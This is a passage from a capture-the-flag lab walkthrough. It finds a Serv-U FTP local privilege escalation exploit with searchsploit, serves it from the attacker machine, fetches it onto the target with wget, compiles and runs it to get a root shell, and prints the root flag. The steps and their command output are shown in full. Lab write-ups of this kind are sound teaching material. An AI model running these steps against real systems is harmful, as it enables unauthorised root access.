 Here is an exploit I found on searchsploit.
```
$searchsploit Serv-U 15.1
----------------------------------------------------------------------------------------------------- 
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (1)                                          | linux/local/47009.c
Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (2)                                          | multiple/local/47173.sh
----------------------------------------------------------------------------------------------------- 
```
I transfer `47009.c` to server and by executing we get root access.
```
$python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.1.8 - - [04/Sep/2020 12:20:58] "GET /47009.c HTTP/1.1" 200 -
```

```
love@election:/tmp$ wget http://192.168.1.2:8000/47009.c
--2020-09-04 12:19:50--  http://192.168.1.2:8000/47009.c
Connecting to 192.168.1.2:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 619 [text/plain]
Saving to: ‘47009.c’

47009.c                           100%[============================================================>]     619  --.-KB/s    in 0s      

2020-09-04 12:19:50 (4.39 MB/s) - ‘47009.c’ saved [619/619]

love@election:/tmp$ gcc 47009.c -o exploit
love@election:/tmp$ ./exploit 
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)
opening root shell
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)

```
# Flag
```
# cat root.txt
5238feefc4ffe09645d97e9ee49bc3a6

```
